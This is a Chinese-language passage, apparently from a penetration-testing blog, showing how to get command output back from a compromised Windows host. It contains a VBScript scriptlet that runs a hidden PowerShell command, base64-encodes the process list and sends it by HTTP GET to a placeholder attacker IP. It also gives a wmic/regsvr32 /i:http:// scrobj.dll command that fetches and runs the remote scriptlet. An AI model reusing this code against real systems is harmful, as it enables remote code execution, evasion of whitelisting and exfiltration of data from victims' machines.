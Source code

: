 目前，这种download+iex方式肯定不行了，然后我就改了几个脚本，通过HTTP Log来回显执行结果：

获取进程列表：

```
<?XML version="1.0"?>
<scriptlet>
	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
		<script language="vbscript">
<![CDATA[
Sub getName(name)
  	Dim http
	Set http = CreateObject("Msxml2.ServerXMLHTTP")
	http.open "GET","http://xxx.xxx.xxx.xxx:8086/"+name, False
	http.send
End Sub

Sub Cmd(command)
Set oShell = CreateObject("WScript.Shell")
Set Re = oShell.Exec(command)

Do While Not Re.StdOut.AtEndOfStream
	getName Re.StdOut.ReadLine()
Loop
End Sub

Cmd "powershell -w hidden -c $s=Get-Process;$process ='';foreach ($n in $s){$process += $n.Name+'|'}$Bytes = [System.Text.Encoding]::Unicode.GetBytes($process);$EncodedText =[Convert]::ToBase64String($Bytes);Write-Host $EncodedText;exit;"
]]>
		</script>
	</registration>
</scriptlet>
```

执行：

```
wmic process call create "regsvr32 /s /n /u /i:http://xxx.xxx.xxx.xxx:8086/p.txt scrobj.dll"
```

![](media/2019-07-19-14-51-18.png)

获得回显。
